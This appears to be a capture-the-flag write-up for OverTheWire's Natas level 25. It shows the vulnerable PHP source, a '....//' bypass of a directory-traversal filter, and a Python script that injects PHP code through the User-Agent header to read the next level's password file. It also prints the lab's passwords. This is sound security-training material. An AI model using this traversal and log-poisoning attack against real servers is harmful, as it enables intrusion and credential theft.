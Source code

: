 # Writeup level 25
We are greeted by a page where we can select the language of a text. When we change the language we can see that the URL is getting changed or rather said we can see that there is a GET-Parameter named **lang**. From the source code we can see that files are getting loaded inside the page and the path to the file is controlled by the GET-Parameter lang. Sadly it has some restrictions which we have to try to bypass now.

**Source Code**  
```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```


**Bypass (Directory Traversal Check)**  

```php
if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
}
```
So what it does it removes the **../** in a String. We can simply create a String that will work for instance: **....//** after the remove it will be **../**.

Lets test it by opening the log file.  
....//logs/natas25_jcp9pmeep2qhf89ggu0klpm9f6.log

![](level25.png) 

It Works!

**Bypass filename Check**  
```php
if(strstr($filename,"natas_webpass")){
            echo "Illegal file access detected! Aborting!";
            //logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

We can't bypass that check but we can still get the contet of the file.

**Final Exploit**  
Since we can open the logfile and see that it prints our User-Agent inside the html. We could try to edit the User-Agent into something malicious. For instance php-code.

```python
import requests

url = "http://natas25.natas.labs.overthewire.org/?lang="

s = requests.Session()
# initial request to get a session
r = s.get(url, auth=("natas25", "GHF6X7YwACaYYssHVY05cFq83hRktl4c"))
session_id = r.cookies['PHPSESSID']
directory_traversal = f"....//logs/natas25_{session_id}.log"

new_url = url + directory_traversal
php_code_injection = "<?php var_dump(file_get_contents('/etc/natas_webpass/natas26')); ?>"

headers = {
	'User-Agent': php_code_injection
}

r2 = s.get(new_url, auth=("natas25", "GHF6X7YwACaYYssHVY05cFq83hRktl4c"), headers=headers)

print(r2.text)
```

The password is:  
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

